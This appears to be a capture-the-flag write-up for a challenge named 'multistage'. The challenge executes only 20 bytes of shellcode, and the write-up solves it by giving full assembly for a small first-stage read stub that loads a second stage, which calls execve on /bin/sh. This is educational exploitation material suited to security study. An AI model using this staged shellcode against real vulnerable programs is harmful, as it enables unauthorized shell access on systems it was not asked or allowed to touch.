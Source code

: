 # multistage

This challenge reads shellcode from stdin and executes it. The problem is that it reads just 20 (0x14) bytes that are not enough to write a shellcode that spawns a shell.

The idea is to write a first stage that reads the second stage from stdin.

## First Stage

```asm
mov rsi, rax
xor rax, rax
mov rdi, rax
mov rdx, 0x1000
syscall
; 2 * 0x90
```

- RSI: set to the address of the second stage
- RAX: set to 0 (SYS_read)
- RDI: set to 0 (stdin)
- RDX: set to 0x1000 (4096 bytes), the number of bytes to read (basically a random large enough number)

![Multistage GDB 1](../../.github/assets/multistage_gdb_1.png)

As we can see the first stage is 20 bytes long.

## Second Stage

```asm
; 20*0x90 to align with the RIP
mov rdi, rsi
add rdi, 0x2b
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

- RDI: set to the address of the string "/bin/sh"
- RAX: set to 0x3b (SYS_execve)
- RSI: set to 0 (NULL)
- RDX: set to 0 (NULL)

![Multistage GDB 2](../../.github/assets/multistage_gdb_2.png)

This is the situation right after the SYS_READ syscall. As we can see the RIP points right after the syscall.

So we have that the second stage begins 21 bytes (0x15) after the first stage. The second stage is 22 bytes long. Then the offset of "/bin/sh" is 43 = 0x2b bytes.
